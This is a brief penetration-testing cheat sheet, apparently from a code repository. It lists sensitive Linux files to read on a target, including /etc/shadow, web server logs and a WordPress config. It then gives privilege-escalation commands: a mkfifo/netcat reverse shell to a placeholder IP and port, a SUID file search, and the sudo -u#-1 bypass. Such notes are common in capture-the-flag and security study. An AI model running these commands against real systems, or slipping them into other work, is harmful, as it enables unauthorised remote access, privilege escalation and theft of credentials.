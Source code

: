 ## Important files (Default Location)
```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
```

### PrivEsc
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
find / -perm -4000 2>/dev/null    # file with suid
sudo -u#-1 /bin/bash
```

### Not So Important But May Be Useful (Default Location)
```
/proc/cpuinfo
```
